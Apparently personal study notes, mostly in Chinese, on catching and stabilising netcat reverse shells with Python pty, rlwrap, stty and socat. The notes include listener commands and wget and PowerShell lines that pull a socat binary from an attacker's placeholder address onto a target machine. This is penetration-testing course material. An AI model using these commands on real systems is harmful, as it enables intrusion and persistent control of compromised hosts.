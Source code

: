 ```yaml
---
profileName: redcamellia
postId: "84"
postType: post
categories:
  - 3
---
```

Reverse shell listen:
nc -nlvp \[PORT]
	 -l 用于告诉 netcat 这将是一个侦听器
    -v 用于请求详细输出
    -n 告诉 netcat 不要解析主机名或使用 DNS。
    -p 表示将遵循端口规范。
Netcat Shell Stabilisation：
```
默认情况下，这些 shell 非常不稳定。按 Ctrl + C 会杀死整个事情。它们是非交互式的，并且经常有奇怪的格式错误。这是因为 netcat 的“shell”实际上是在终端内运行的进程，而不是真正的终端。幸运的是，有很多方法可以稳定 Linux 系统上的 netcat shell。我们将在这里看三个。Windows 反向 shell 的稳定性往往要困难得多;但是，我们将在这里介绍的第二种技术对它特别有用。
```
 _技术 1：Python_
	\1. 首先要做的是使用 `python -c 'import pty;pty.spawn("/bin/bash")'` ，它使用 Python 生成功能更好的 bash shell;请注意，某些目标可能需要指定的 Python 版本。如果是这种情况，请根据需要将 `python` 替换为 `python2` 或 `python3` 。在这一点上，我们的 shell 看起来会更漂亮一些，但我们仍然无法使用 tab 自动完成或箭头键，并且 Ctrl + C 仍然会杀死 shell。
	2.第二步是： `export TERM=xterm` -- 这将使我们能够访问术语命令，例如 `clear` 。
	3.最后（也是最重要的）我们将使用 Ctrl + Z 对 shell 进行背景处理。回到我们自己的终端中，我们使用 `stty raw -echo; fg` 。这做了两件事：首先，它关闭了我们自己的终端回显（它使我们能够访问 Tab 自动完成、箭头键和 Ctrl + C 来终止进程）。然后，它使shell成为前景，从而完成该过程。
	![[Pasted image 20231208172838.png]]
	请注意，如果 shell died，您自己的终端中的任何输入都将不可见（由于禁用了终端回显）。若要解决此问题，请键入 `reset` 并按 Enter。
_技术 2：rlwrap_
	rlwrap是一个程序，简单来说，它使我们能够在收到 shell 后立即访问历史记录、Tab 自动完成和箭头键;但是，如果您希望能够在 shell 内使用 Ctrl + C，仍必须使用一些手动稳定功能。默认情况下，Kali 上未安装 rlwrap，因此请先使用 `sudo apt install rlwrap` 安装它。
	为了使用 rlwrap，我们调用了一个稍微不同的侦听器：
	`rlwrap nc -lvnp <port>`
	在 netcat 监听器前面加上 “rlwrap” 为我们提供了一个功能更全面的 shell。这种技术在处理 Windows shell 时特别有用，否则很难稳定。在处理 Linux 目标时，可以使用与上一种技术的第三步相同的技巧来完全稳定：使用 Ctrl + Z 使 shell 进入后台，然后使用 `stty raw -echo; fg` 稳定并重新进入 shell。
_技术3：socat
	稳定 shell 的第三种简单方法是使用初始 netcat shell 作为进入功能更全面的 socat shell 的垫脚石。请记住，此技术仅限于 Linux 目标，因为 Windows 上的 Socat shell 不会比 netcat shell 更稳定。为了实现这种稳定方法，我们首先将 socat 静态编译的二进制文件（编译为没有依赖关系的程序版本）传输到目标机器。实现此目的的典型方法是在攻击计算机上包含 socat 二进制文件 （ `sudo python3 -m http.server 80` ） 的目录中使用 Web 服务器，然后在目标计算机上使用 netcat shell 下载文件。在Linux上，这将通过curl或wget（ `wget <LOCAL-IP>/socat -O /tmp/socat` ）完成。
	-----------------------------------------
	为了完整起见：在Windows CLI环境中，可以使用Invoke-WebRequest或webrequest系统类使用Powershell完成相同的操作，具体取决于安装的Powershell版本（ `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe` ）。在即将到来的任务中，我们将介绍使用 Socat 发送和接收 shell 的语法。
使用上述任何一种技术，能够更改终端 tty 大小都很有用。这是您的终端在使用常规 shell 时会自动执行的操作;但是，如果要使用覆盖屏幕上所有内容的文本编辑器之类的东西，则必须在反向或绑定 shell 中手动完成。
首先，打开另一个终端并运行 `stty -a` 。这将为您提供大量输出。记下“rows”和 columns 的值：
![[Pasted image 20231208173926.png]]
接下来，在反向/绑定 shell 中，键入：
`stty rows <number>`  
and 和
`stty cols <number>`
填写您在自己的终端中运行命令后获得的数字。这将改变终端的注册宽度和高度，从而允许依赖此类信息准确的文本编辑器等程序正确打开。